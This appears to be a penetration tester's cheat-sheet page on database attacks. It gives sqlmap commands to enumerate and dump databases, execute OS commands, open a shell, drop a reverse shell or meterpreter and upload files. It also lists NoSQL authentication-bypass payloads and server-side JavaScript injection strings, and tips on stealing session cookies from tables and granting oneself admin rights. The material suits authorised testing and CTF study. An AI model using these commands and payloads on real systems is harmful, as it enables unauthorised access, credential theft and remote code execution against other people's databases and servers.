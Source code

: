# Basic Reconnaissance

# Tips

- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# DBMS Enumeration
- [[3306 - MySQL]]
- [[1433 - MSSQL]]
- [[1521, 1522–1529 - Oracle and ODAT]]
- [[27017, 27018 - MongoDB]]
- [[6379 - Redis]]
- [[SQLite Enumeration]]
  

# SQL Injection Cheat Sheets

- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



# Universal Structures

```
information_schema Metadata and all the databases and tables
information_schema.schemata Databases
information_schema.tables Tables
information_schema.columns Columns
```


# sqlmap

## GET
Discover vulnerabilities in databases as well as dump info

```sh
sqlmap -u <URL> --batch
```

## POST

```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```


## Web sockets

```sh
sqlmap -u ws://<ip><port> --data <data>
```

## Commands

**To get data from any query use the `--dump` option**

```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

## Shell

To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.

```sh
# Exec command
sqlmap -u <URL> --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

## File Upload

```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

  

# NoSQL

## Authentication Bypass

```
DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## SSJI

```
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## NoSQLMap

Since the tool is using a menu based system, I'll just link the GitHub.
[Documentation and Release](https://github.com/codingo/NoSQLMap)


# References​
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)
